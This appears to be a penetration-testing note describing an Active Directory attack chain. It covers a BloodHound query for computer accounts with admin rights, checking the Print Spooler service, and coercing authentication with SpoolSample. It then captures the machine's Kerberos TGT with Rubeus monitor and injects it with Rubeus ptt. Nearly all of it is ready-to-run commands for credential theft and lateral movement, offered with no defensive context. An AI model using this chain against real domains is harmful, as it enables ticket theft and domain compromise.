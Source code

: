 We can use a custom Bloodhound query to find computer accounts that have admin rights over other computer accounts:
```
MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
```
If the output show us that there is a computer account(the target machine) have admin rights over other computer account, now we should see if the *Print Spooler Service* running or not on the target machine:
```
# Try this...
Get-WmiObject Win32_Printer -Computer <hostname.fqdn>
# Or, this...
Get-PrinterPort -ComputerName <hostname.fqdn>
```
Once we determinde that the *Print Spooler Service* is running, we will force it to authenticate with our machine using ```SpoolSample.exe``` tool :
```
SpoolSample.exe <TargetMachine> <OurMachine>     #OurMachine -> the TargetMachine has admin rights on
```
And a listener running in the bachground capturing the authenticated TGT comming from the Target Machine using ```Rubeus.exe``` tool :
```
Rubeus.exe monitor /monitorinterval:10 /targetuser:<TargetMachine> /nowrap
```
Now using the comming TGT we can inject it into our session using *Mimikatz* or *Rubues* :
```
Rubeus.exe ptt /ticket:<TGTticket>
```







